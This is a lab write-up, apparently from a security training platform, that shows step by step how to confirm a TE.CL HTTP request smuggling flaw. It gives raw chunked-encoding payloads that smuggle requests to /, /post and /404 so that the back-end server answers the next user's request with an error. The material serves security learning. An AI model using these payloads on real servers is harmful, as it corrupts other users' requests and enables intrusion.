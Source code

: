 # HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

## This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

## To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

---

### step 1

send homepage to repeater
change get request to post request
change HTTP /2 to HTTP/1.1
add SMUGGLED to body send request

![screenshot](images/images_lab5/lab5_homepage_post_request.jpg)

### step2

add
Transfer-Encoding: chunked
8
SMUGGLED
0

![screenshot](images/images_lab5/lab5_add_te_to_home_page.jpg)

![screenshot](images/images_lab5/lab5_te_smuggled.jpg)

### step3

increase content-Length to 19 or 20
it will give internal server error

![screenshot](images/images_lab5/lab5_internal_server_error.jpg)

### step4

test payload

```
5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

![screenshot](images/images_lab5/lab5_testing_payload.jpg)

```
67
GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](images/images_lab5/lab5_test_payload_for_blog.jpg)

![screenshot](images/images_lab5/lab5_post_in_response.jpg)

### step6

change get request to post request

```
68
POST /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](images/images_lab5/lab5_test_post_request.jpg)

### step7

test payload to solve lab

```
5d
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![screenshot](images/images_lab5/lab5_test_payload_404_get_request.jpg)

lab will solved
404
you can also send post request to solve lab

![screenshot](images/images_lab5/lab5_testing_payload_404_post_request.jpg)

![screenshot](images/images_lab5/lab5_congratulations.jpg)
